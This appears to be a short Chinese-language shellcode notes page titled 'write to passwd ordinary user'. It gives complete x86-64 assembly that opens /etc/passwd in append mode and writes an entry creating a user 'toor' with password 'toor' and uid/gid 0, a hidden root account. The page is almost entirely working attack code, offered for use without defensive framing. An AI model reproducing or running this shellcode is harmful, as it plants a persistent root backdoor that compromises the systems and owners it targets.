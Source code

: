 

## 5.写入 passwd 普通用户

### 黄  需要改变 uid 和gid

#### 1.74 bytes 添加     toor:sXuCKi7k3Xh/s:0:0::/root:/bin/sh

```
; username: toor
; password: toor
; uid: 0
; gid: 0
; home: /root
; shell: /bin/sh
```

```
global _start

section .text

_start:
	jmp _push_filename
	
_openfile:
	pop rdi 	 
	xor rax, rax
	xor rsi, rsi 
	mov si, 0x401 			;O_WRONLY|O_APPEND(0x401)
	add al, 0x2 		
	syscall ;   1  open("/etc/passwd",0x401)

	xchg rdi, rax 			;交换，将返回值存入rdi
jmp short get_entry_address 

write_entry:
	pop rsi 
	push 0x1
	pop rax 
	push 38 
    pop rdx
	syscall   ;	2  write(read返回值,要写入的字符串，size_t count)

	push 60
	pop rax
	syscall 

get_entry_address:
	call write_entry
	user_entry: db "toor:sXuCKi7k3Xh/s:0:0::/root:/bin/sh",0xa

_push_filename:
	call _openfile
	path: db "/etc/passwd"
```
